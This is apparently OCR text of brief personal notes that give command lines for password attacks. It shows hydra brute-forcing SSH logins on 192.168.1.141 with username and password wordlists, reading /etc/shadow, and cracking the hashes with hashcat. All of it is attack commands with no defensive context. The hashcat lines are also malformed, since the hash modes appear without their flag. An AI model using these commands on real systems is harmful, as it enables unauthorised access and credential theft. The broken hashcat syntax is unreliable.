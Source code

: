 sudo hydra -L username.txt -P wordlist/path.txt 192.168.1.141 ssh  	(You can use telnet,ftp etc)
sudo hydra -l "admin"  -P wordlist/path.txt 192.168.1.141 ssh  

Check the shadow file hash
cat /etc/shadow

#Now crack the shadow password
copy shadow file and new file

man hashcat or hashcat -h 
sudo hashcat -a 0 1800 -o password/store/path.txt shadowhash.txt wordlist/path.txt  (-o is for to save the find password information)
sudo hashcat -a 0 1000 -o password/store/path1.txt shadowhash.txt wordlist/path.txt  (NTLM hash)
